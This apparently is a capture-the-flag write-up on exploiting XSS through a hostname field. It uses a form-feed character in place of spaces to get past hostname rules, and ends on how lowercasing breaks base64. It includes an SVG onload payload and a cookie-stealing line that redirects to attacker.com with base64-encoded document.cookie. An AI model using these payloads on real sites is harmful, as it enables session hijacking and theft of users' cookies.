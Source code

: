 <img src="https://i.imgur.com/nwsOzaO.png">

## Some RFC's for HostName:

* Should not contain space
* No matter, Upper case or Lower case, hostname will automatically converted to lowercase by the browser
* Here Some chars that Break the hostname 
    ```
    ? / \ # @ 
    ```

## Exploit IDEA:

* We need a Payload without space and the without the above chars. 
* UrlEncoding the `white space` doesn't work.
* Unicodes are Allowed in Hostnames
* We Need to find a Unicode Char that Act like a white space, So we can Use that unicode as space to Bypass the RFC rules.

## Harmless XSS:

* After 20 Min of Research, I came across a Blog with this payload. "Form Feed Injection" 

>`<svg%0Conload=alert()>` 

<img src="https://i.imgur.com/iNsXZsf.png">

---

## Weaponizing XSS:

* So, Now We have a XSS. 
* My First Idea was to use btoa(base64) to Encode the Cookies and Redirect the Bot to attacker server with the Cookies as path. (`onload=window.location = 'http://attacker.com/?'+btoa(document.cookie)`)
* As i Mentioned Above, `Upper case or Lower case, hostname will automatically converted to lowercase by the browser`

* So, Now the the Encoded Base64 cookie will be automatically converted to Lower Case. Usually Base64 is a Mix of Both Upper and Lower Case letters

---
<br>

<img src="https://i.imgur.com/Mp5MX5A.png">

* If You Look Closer to The Above Image, the Payload is
`alert('AAABBBCCC')` . But the Browser Automatically Converted the upper case to lowercase. bcoz, THIS IS HOSTNAME. lol
---
